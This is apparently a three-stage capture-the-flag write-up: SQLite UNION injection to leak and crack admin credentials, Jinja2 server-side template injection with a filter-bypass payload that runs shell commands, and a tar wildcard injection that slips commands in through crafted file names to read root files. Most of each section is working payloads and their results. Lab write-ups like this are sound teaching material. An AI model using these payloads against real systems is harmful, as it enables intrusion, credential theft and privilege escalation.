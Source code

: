 # Born To be admin 1/3

The first vulnerability is an SQLi in the search bar. Which means we will be able to leak data using the search bar.
We will try to uncover the admin's credentials.

## Get tables and collums name
### Table name
We can use Payload All the Things to help us :
Under `Sqlite` > `Integer/String based - Extract table name` we can find the following [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#integerstring-based---extract-table-name) :

`SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'`

Which we arrange into :
`aaaaa' UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -`

We get : `users,data`

### Collumns name
As we know there is a `users` table, we can try and leak the [collumns names](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#integerstring-based---extract-column-name):
`aaaaaa' UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -`

We get : `CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username VARCHAR(100) NOT NULL, password VARCHAR(100) NOT NULL, is_admin BOOLEAN NOT NULL DEFAULT 0 )`

So the table looks like : | id (int) | username (str) | password (str) | is_admin (bool) |

We can start uncovering the admin's credentials

## Get admin's username
`' UNION SELECT username FROM users WHERE is_admin=true-- -`

You get : `redpanda-master`

## Get user's password
`' UNION SELECT password FROM users WHERE is_admin=true-- -`

You get : `61983636aae8819f9a94b39bd0e6219d2212f0bcc37bb11032b559d6df26b07f`
Which is part of rockyou and can be cracked using https://crackstation.net/
The password is `redpandas4ever`

## Login to the admin's account
We use the login form to login :
`redpanda-master`
`redpandas4ever`

> NBCTF{Y0u're_Th3_TrU3_redpanda-master_You've_Been_B0rn_T0_B3_An_Adm1n}

# Born to be user 2/3
In this part the vulnerability is an ssti on the admin panel, the goal is to get a shell or at least RCE.

## Discovering the SSTI
When inputing `{{7*7}}` in the text box, we get the following result : `Hello, redpanda-master. You searched for the username 49, here is your results :`

We can see the 49, so our ssti is working, let's exploit it.

## Filters
There is two small filters on this ssti : `'`, `.` and `_` are banned.
We can see it when inputing `.`, we get : `Error : . _ and ' are filtered to avoid interfering with sql.`

## Exploit
We can use payload all the things once again to start our payload : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread

We will use podalirius' payload because it's the shortest :
`{{ lipsum.__globals__["os"].popen('id').read() }}`

We can see there is `.`, `'` and `_` in the payload we got to remove :

1. Removing '
	We can use double quote (") instead of single ones (')
2. Removing .
	We can use `|attr()` instead of `.` in jinja2
3. Removing _
	We can encode `_` in `\x5f`
4. Removing [ because it doesnt work with attr
	We can use the function `get` instead

Final payload : `{{lipsum|attr("\x5f\x5fglobals\x5f\x5f")|attr("get")("os")|attr("popen")("cat flag\x2etxt")|attr("read")()}}`

> NBCTF{Fr0m_Adm1n_0n_W3bSite_T0_Us3r_0n_S3rver_SSTIs_are_FUN!}

# Born To be Root 3/3
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/tar-wildcard-injection-privesc/

```sh
echo -e \"#!/bin/bash\\ncat /root/* > result\" > shell\x2esh
echo \"\" > \"--checkpoint-action=exec=sh shell\x2esh\"
echo \"\" > --checkpoint=1
# Wait one minute
ls -la
# If there is result, you can cat it.
cat result
```
We get `NBCTF{You&#39;ve_Really_Becomed_Th3_R3d_Panda_And_Red_Team_Master!}` which desencode to :

> NBCTF{You've_Really_Becomed_Th3_R3d_Panda_And_Red_Team_Master!}
